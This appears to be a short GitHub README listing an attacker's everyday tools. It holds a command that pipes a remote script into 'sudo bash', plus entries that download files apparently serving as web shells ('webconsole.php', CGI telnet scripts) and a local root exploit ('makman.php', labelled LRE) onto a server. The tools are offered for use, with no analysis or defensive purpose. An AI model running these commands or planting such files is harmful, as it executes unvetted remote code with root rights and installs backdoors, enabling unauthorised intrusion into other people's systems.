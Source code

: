 # Random Stuff i use Everyday
## $name == "sysadmin.sh"
```bash
curl https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/cdn/master/sysadmin.sh | sudo bash
```
## $name == "webconsole"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/cdn/master/webcon", "webconsole.php");
```
&nbsp;
&nbsp;
## $name == "cgitelnet1"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/cdn/master/cgi1", "idx_cgi/cgitelnet1.idx");
```
&nbsp;
&nbsp;
## $name == "cgitelnet2"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/cdn/master/cgi2", "idx_cgi/cgitelnet2.idx");
```
&nbsp;
&nbsp;
## $name == "LRE"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/cdn/master/makman", "makman.php");
```
